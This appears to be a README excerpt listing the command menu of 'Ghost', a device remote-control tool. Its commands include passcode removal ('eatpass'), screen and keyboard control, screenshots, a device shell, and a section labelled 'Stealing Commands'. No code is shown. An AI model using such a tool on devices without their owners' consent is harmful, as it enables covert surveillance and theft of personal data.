

```bash
# Some Ghost commands
Core Commands
=============

    Command        Description
    -------        -----------
    clear          Clear terminal window.
    exec           Execute local system command.
    exit           Exit and close current session.
    help           Show available session commands.

Settings Commands
=================

    Command        Description
    -------        -----------
    activity       Get device activity information.
    battery        Get device battery information.
    netstat        Get device network information.
    sysinfo        Get device system information.
    wifi           Control device wifi service.

Managing Commands
=================

    Command        Description
    -------        -----------
    eatpass        Eat device passcode.
    keyboard       Control target keyboard.
    openurl        Open URL on device.
    screen         Control device screen.
    screenshot     Take device screenshot.
    shell          Open device shell.
    upload         Upload local file.

Stealing Commands
=================

    Command        Description
    -------        -----------
    download       Download remote file.

Boot Commands
=============

    Command        Description
    -------        -----------
    reboot         Reboot device.
```

------

